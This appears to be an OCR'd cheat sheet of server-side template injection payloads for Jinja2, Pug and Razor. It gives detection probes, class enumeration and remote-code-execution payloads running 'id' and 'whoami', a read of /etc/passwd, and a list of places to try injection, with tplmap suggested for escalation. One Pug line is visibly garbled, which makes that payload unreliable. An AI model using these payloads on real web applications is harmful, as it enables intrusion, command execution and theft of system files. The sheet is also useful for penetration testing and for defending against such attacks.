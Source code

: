 
##  **Flask / Jinja2 (Python)**

```jinja
{{ 7*7 }} → 49
```
### Class Enumeration:

```jinja
{{ ''.__class__.__mro__[1].__subclasses__() }}
{{ [].__class__.__base__.__subclasses__() }}
```
### RCE (via `os.system`):

```jinja
{{ config.items() }}
{{ ''.__class__.__mro__[1].__subclasses__()[<index>](“id”,shell=True,stdout=-1).communicate() }}
```

---

##  **Pug / Jade (NodeJS)**

### RCE:

```pug
#{root.process.mainModule.require('child_process').execSync('id').toString()}
```
```pug
.............._mr............[2].____subclasses_()[40]('/etc/passwd').read()
```

---

##  **Razor (.NET)**

### Detection:

```razor
@(1+2)
```
### RCE:

```razor
@{ var proc = new System.Diagnostics.Process(); proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = "/c whoami"; proc.Start(); }
```

---
## Where to try

- Always try SSTI in:
    - Search boxes
    - Feedback forms
    - Email templates
    - URLs like `/?template=...`
- Use `tplmap` + manual payloads to escalate to RCE.
---
